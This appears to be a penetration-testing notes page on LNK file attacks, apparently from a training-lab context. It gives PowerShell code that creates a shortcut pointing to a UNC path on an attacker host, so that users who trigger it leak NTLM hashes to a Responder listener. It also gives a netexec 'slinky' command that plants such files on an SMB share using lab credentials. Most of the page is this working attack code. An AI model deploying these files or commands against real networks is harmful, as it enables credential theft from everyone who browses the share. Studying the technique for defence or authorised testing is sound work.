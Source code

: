 # 🗄️ LNK File Attacks

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\192.168.138.149\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

What will happen if we have responder listening and this file is triggered, we will get a hash and force auth:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

good example:

{% embed url="https://infinitelogins.com/2020/12/17/capturing-password-hashes-via-malicious-lnk-files/" %}

everyone who will interact with this share will send us a hash, very malicious&#x20;

A good thing to know is :

```
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149
```

{% embed url="https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-slinky" %}

{% embed url="https://www.netexec.wiki/" %}

{% embed url="https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf" %}
